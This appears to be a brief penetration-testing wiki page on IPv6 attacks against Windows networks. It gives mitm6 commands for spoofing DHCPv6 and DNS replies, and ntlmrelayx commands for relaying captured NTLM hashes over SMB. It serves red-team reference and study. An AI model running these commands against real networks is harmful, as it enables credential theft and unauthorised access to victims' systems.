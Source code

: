 # IPv6 Attacks

## Brief

All Windows versions since Windows Vista (including server variants) have IPv6 enabled and prefer it over IPv4. IPv6 attacks abuses the default IPv6 configuration in Windows networks to spoof DNS replies by acting as a malicious DNS server and redirect traffic to an attacker specified endpoint.

## Basic Attack

First we start mitm6, which will start replying to DHCPv6 requests and afterwards to DNS queries requesting names in the internal network.

```bash
mitm6 -d $domain

# For the second part of our attack, we use  ntlmrelayx to relay the captured hashes. Now i will show two possible ways to use this tool, first through a simple SMB relay. 
ntlmrelayx.py -6 -tf Targets.txt -socks -smb2support
```

## More

{% embed url="https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/" %}

